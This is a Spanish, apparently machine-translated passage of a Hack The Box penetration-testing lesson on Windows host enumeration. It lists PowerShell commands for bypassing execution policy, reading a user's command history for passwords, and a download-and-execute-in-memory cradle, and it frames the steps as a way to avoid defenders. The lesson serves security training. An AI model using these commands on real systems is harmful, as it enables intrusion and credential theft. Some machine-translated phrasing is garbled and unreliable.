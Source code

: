 #### Enumeración básica

![image](https://academy.hackthebox.com/storage/modules/143/basic-enum.png)

Los comandos de arriba nos darán una imagen inicial rápida del estado en el que se encuentra el host, así como alguna información básica de redes y dominio. Podemos cubrir la información anterior con un comando[SystemInfo](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/systeminfo).

#### SystemInfo

![image](https://academy.hackthebox.com/storage/modules/143/systeminfo.png)

El`systeminfo`El comando, como se vio anteriormente, imprimirá un resumen de la información del host para nosotros en una salida ordenada. Ejecutar un comando generará menos registros, lo que significa menos posibilidades de que un defensor nos note en el host.

---

## Aprovechar PowerShell

PowerShell ha existido desde 2006 y proporciona a Windows Sysadmins un marco extenso para administrar todas las facetas de los sistemas y entornos publicitarios de Windows. Es un poderoso lenguaje de secuencias de comandos y se puede usar para profundizar en los sistemas. PowerShell tiene muchas funciones y módulos incorporados que podemos usar en una participación para reconocer el host y la red y enviar y recibir archivos.

Veamos algunas de las formas en que PowerShell puede ayudarnos.

|**CMD-LET**|**Descripción**|
|---|---|
|`Get-Module`|Listas de módulos disponibles cargados para su uso.|
|`Get-ExecutionPolicy -List`|Imprimirá el[política de ejecución](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2)Configuración para cada alcance en un host.|
|`Set-ExecutionPolicy Bypass -Scope Process`|Esto cambiará la política de nuestro proceso actual utilizando el`-Scope`parámetro. Hacerlo revertirá la política una vez que desocupamos el proceso o la rescindirá. Esto es ideal porque no haremos un cambio permanente para el anfitrión de la víctima.|
|`Get-ChildItem Env: \| ft Key,Value`|Devuelva valores de entorno, como rutas clave, usuarios, información de la computadora, etc.|
|`Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`|Con esta cadena, podemos obtener el historial PowerShell del usuario especificado. Esto puede ser bastante útil ya que el historial de comandos puede contener contraseñas o señalarnos hacia archivos de configuración o scripts que contienen contraseñas.|
|`powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"`|Esta es una manera rápida y fácil de descargar un archivo de la web usando PowerShell y llamarlo desde la memoria.|

Vamos a verlos en acción ahora en el`MS01`anfitrión.

#### Verificaciones rápidas usando PowerShell

  Viviendo fuera de la tierra

```powershell-session
PS C:\htb> Get-Module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   1.0.1.0    ActiveDirectory                     {Add-ADCentralAccessPolicyMember, Add-ADComputerServiceAcc...
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...

PS C:\htb> Get-ExecutionPolicy -List
Get-ExecutionPolicy -List

        Scope ExecutionPolicy
        ----- ---------------
MachinePolicy       Undefined
```